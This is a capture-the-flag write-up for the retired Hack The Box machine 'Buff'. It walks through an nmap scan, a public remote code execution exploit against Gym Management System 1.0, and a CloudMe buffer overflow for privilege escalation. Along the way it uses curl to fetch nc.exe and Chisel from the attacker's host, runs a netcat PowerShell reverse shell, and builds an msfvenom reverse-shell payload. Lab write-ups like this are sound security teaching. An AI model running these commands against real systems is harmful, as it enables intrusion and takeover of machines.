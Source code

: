 # Buff

This is the write-up for the box Buff that got retired at the 21st November 2020.
My IP address was 10.10.14.11 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.198    buff.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/buff.nmap 10.10.10.198
```

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
```

## Checking HTTP (Port 8080)

The web page seems to be a custom developed application for a fitness website and all pages in the menu have a PHP extension.
On the top right is a login form and the copyright on the bottom shows [Projectworlds.in](https://projectworlds.in/).

In the menu _Contact_ it says that it is made using _"Gym Management Software 1.0"_.
On the website **Projectworlds.in**, there are different PHP projects and one them is [Gym Management System 1.0](https://projectworlds.in/free-projects/php-projects/gym-management-system-project-in-php/).

By searching for vulnerabilities for this software, there are is a  **Unauthenticated Remote Code Execution** vulnerability:
```
searchsploit gym

Gym Management System 1.0 - Unauthenticated Remote Code Execution
```

Using the Python exploit script:
```
python2 48506.py 'http://10.10.10.198:8080/'
```

It starts a shell on the box as the user _shaun_, but it is not possible to change directories as this is not a persistent shell.
We can upload **Netcat for Windows** to the box and connect to a reverse shell:
```
C:\xampp\htdocs\gym\upload> curl 10.10.14.11:8000/nc.exe -o nc.exe

C:\xampp\htdocs\gym\upload> nc.exe 10.10.14.11 9001 -e powershell
```

The binary _nc.exe_ gets downloaded and after executing it, a reverse shell connection on my IP and port 9001 is established as _shaun_.

## Privilege Escalation

In the home directory _C:\Users\shaun\Downloads_ is a file called _CloudMe_1112.exe_.

After researching the file name, it seems to be software from [CloudMe](https://www.cloudme.com/) for a synchronization and storage service.
The number shows the _version 1.11.2_ which has a publicly available **Buffer Overflow** vulnerability:
```
searchsploit cloudme

CloudMe 1.11.2 - Buffer Overflow (PoC)
```

The exploit is a Python script that abuses a service on port 8888 that runs on the localhost of the box.

> NOTE: This port does not listen continuously and exploitation may take several tries.

Creating a payload with **Msfvenom** and replacing it in the exploit code:
```
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.11 LPORT=9002 -b '\x00\x0A\x0D' -f python
```

The port 8888 has to be forwarded to our client to make this exploit work, so I use [Chisel](https://github.com/jpillora/chisel) and upload it to the box:
```
curl 10.10.14.11:8000/chisel.exe -o chisel.exe
```

Starting the **Chisel server** on our client:
```
./chisel server --reverse --port 9003
```

Forwarding port 8888 from the box to our local client:
```
.\chisel.exe client 10.10.14.11:9003 R:8888:localhost:8888
```

Executing the exploit:
```
python3 48389.py
```

After executing the exploit script, the listener on my IP and port 9002 starts a reverse shell as _Administrator_!
